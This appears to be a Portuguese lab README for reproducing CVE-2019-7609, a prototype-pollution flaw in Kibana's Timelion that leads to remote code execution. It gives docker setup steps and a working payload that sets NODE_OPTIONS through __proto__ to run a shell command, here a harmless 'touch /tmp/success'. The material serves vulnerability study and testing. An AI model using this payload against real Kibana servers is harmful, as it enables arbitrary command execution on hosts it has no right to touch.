


# Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

Kibana é um painel de visualização de dados de código aberto para o Elasticsearch.

As versões do Kibana anteriores a 5.6.15 e 6.6.1 contêm uma falha de execução de código arbitrário no visualizador do Timelion. Um invasor com acesso ao aplicativo Timelion pode enviar uma solicitação que tentará executar o código javascript. Isso pode levar um invasor a executar comandos arbitrários com permissões do processo Kibana no sistema host.

Referências:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Configurar

Antes de configurar o ambiente, você precisa alterar `vm.max_map_count` para maior que 262144 no servidor host (não no contêiner docker):

```
sysctl -w vm.max_map_count=262144
```

Em seguida, inicie o Kibana 6.5.4 e o Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Reprodução de vulnerabilidade

Após iniciar o ambiente, o Kibana está escutando em `http://your-ip:5106`. A poluição do protótipo acontece no visualizador Timeline, preencha o seguinte payload aqui:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```



Em seguida, visite a página "Canvas" para acionar o comando `/bin/touch /tmp/success`. O arquivo `/tmp/success` foi criado com sucesso:


